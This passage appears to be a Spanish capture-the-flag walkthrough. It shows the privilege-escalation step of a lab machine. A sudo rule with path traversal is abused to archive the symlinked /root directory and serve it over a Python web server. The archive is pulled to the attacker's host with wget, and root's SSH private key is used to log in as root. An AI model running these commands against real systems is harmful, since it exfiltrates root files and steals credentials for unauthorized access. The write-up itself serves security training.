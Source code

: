 Si nos vamos al usuario `tanto` tendremos que crear la ruta del `sudo -l` de 'samurai'...

```shell
mkdir .cgi_bin

#Dentro de .cgi_bin/
nano bin

#Dentro de nano
#!/bin/bash

tar -czhvf /home/tanto/.cgi_bin/root.tar.gz -C /tmp root

python3 -m http.server
```

Lo que hacemos es comrpimir el contenido del enlace simbolico (/root/) y llevarlo a la carpeta de `/.cgi_bin/` y en el usuario `samurai` tendremos que ir tambien a `/.cgi_bin/` para que cuando se comprima esa carpeta automaticamente se abra un servidor de `python` y te lo puedas pasar a tu `host`...

Cuando haya hecho ese `bin` en el usuario `samurai` ejecutamos lo siguiente...

```shell
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

Y se te abrira el servidor de `python`, desde tu `host` hacemos lo siguiente...

```shell
wget http://<IP>:8000/root.tar.gz
```

Lo descomprimimos...

```shell
tar -xzvf root.tar.gz
```

Y dentro de la carpeta `root` nos vamos al `.ssh`...

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa root@<IP>
```

Ya seriamos root con una shell en ssh y podriamos leer la flag.
